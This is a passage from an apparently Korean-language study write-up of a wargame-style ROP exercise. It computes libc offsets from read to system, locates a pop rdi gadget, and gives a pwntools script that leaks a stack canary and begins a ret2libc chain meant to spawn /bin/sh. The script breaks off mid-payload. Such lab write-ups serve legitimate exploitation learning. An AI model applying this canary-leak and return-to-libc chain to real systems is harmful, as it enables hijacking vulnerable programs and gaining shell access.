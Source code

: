 아무튼 libc.so.6 파일에서 해당 plt는 저렇게 찾으면 된다.   

그리고 추가로, 같은 libc 내에서는 두 plt 주소 사이의 오프셋은 항상 같다고 한다.  
따라서 read 함수의 주소를 읽고, 미리 계산해둔 두 주소 사이의 오프셋을 계산해서 system 함수의 주소도 알아낼 수 있다.  
<br>

![image](https://github.com/user-attachments/assets/5b55c906-0f55-4c49-aa62-952cce9aea1c)

이 버전에서는 0xc3c20 만큼 차이가 난다.    

ASLR이 적용되어 있으므로 libc 의 base주소가 랜덤하게 적히게 되는데,   
여기서 base주소를 몰라도 got 테이블에 적힌 read 함수의 주소만 알아도 모든 libc 함수의 주소가 복원된다.  

read 함수에 0xc3c20 을 빼면 system 주소를 알 수 있게 된다    

<br>

![image](https://github.com/user-attachments/assets/ae5f2006-bb7e-4af9-a006-895aed3c24d5)


pop rdi 리턴가젯도 찾아줬다.  
뒤에 ret까지 있어서 저거 하나만 쓰면 될 거 같다  

이제부터 내가 할 일은 puts이나 write를 통해 got 테이블에 적힌 read나 write 함수의 주소를 빼와야한다.  
puts 함수는 인자가 하나니까 puts 함수로 코드를 작성했다  

<br>

**payload 구성**  

```python
payload 구성

쓰레기값, 카나리, SFP ((48+8) + 8 + 8) bytes
----- 지금부터 리턴주소에 쓸 것들 -----
+ pop rdi; ret -> 얘로 다음줄에 rdi 인자를 넘겨준다 
+ puts_got -> rdi에 puts의 got 주소를 적는다
+ puts_plt -> puts_plt를 실행한다 (puts("puts got의 주소") 를 하겠단 말)
+ main_addr -> 메인으로 돌아가기 (돌아가선 /bin/sh 실행 시켜야함)
```

<br>

**코드**  

```python
from pwn import *

p = process('./ROP/rop')
e = ELF('./ROP/rop')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf =  'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

binsh = 0x7ffff7f6e42f

pop_rdi = 0x400853
puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = e.symbols['main']

payload += p64(pop_rdi)
payload += p64(puts_got)
```